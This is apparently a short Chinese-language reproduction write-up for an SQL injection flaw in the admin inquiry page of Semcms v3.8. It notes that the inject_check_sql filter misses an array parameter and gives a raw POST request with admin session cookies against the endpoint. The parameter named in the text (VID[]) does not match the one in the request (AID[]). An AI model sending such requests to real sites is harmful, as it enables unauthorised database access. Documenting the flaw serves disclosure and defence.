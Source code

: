 Semcms v3.8 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.8

三、复现过程
------------

> URL: <http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php>
>
> ![](./resource/Semcmsv3.8sql注入漏洞/media/rId25.png){width="5.833333333333333in"
> height="2.9166666666666665in"}Debug：Defense module is
> class.phpmailer.php and function
> inject\_check\_sql![](./resource/Semcmsv3.8sql注入漏洞/media/rId26.png){width="5.833333333333333in"
> height="0.4946084864391951in"}But VID\[\] didn\'t handle it

-   POST

```{=html}
<!-- -->
```
    POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
    Host: 0-sec.org
    Content-Length: 24
    Cache-Control: max-age=0
    Origin: http://127.0.0.1
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Connection: close

    languageID=&AID%5B%5D=3

image
